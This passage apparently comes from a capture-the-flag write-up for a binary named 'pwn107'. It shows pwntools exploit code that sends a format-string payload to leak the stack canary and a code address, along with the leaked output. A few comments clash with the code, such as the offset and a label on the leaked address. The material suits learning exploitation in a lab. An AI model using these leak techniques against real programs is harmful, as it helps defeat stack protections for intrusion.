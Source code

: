 ```python
output = p.recv().split(b"\n")[0]

print(output)
```

![picture 59](/assets/images/675add9f7fffed28be03672bd2621505b76b7d9bee31c0502794c6b20ee0b170.png)  

To fix the formatting of the leaked addresses, script was modified. 

```python
'''
Exploit starts with format string vulnerability with first entry (Read function). It can read only 20 Bytes.
IT was calculated that canary leaks at 9th position and the function to return to at 17th.
'''
from pwn import *

context.binary = binary = ELF("./pwn107.pwn107",checksec=False)

# This serves just to get the offset from the start of the binary
static_libc_csu_address = binary.symbols.__libc_csu_init
static_main_address = binary.symbols.main

print("Address of static libc csu init: {}".format(hex(static_libc_csu_address)))
print("Address of static main function: {}".format(hex(static_main_address)))

p = process()
p.recvuntil(b"streak?")

payload = b"%13$lX.%17$lX"
p.sendline(payload)
#print("Payload to leak Canary and Func: {}".format(hex(payload)))
p.recvuntil(b"streak:")

output = p.recv().split(b"\n")[0]

print("Leaked Addresses (unformated): {}".format(output))

dynamic_main_address = int(output.split(b".")[1].strip(), 16)
canary_address = int(output.split(b".")[0].strip(), 16)

print("Dynamic Libc: {}".format(hex(dynamic_main_address)))
print("Canary: {}".format(hex(canary_address)))

# Output
#Leaked Addresses (unformated): b' 6C70AC6BD4259200.565120E00992'
#Dynamic Libc: 0x565120e00992
#Canary: 0x6c70ac6bd4259200

'''
In order to get the base address of the binary, we muss subtract static from dynamic address!
'''
```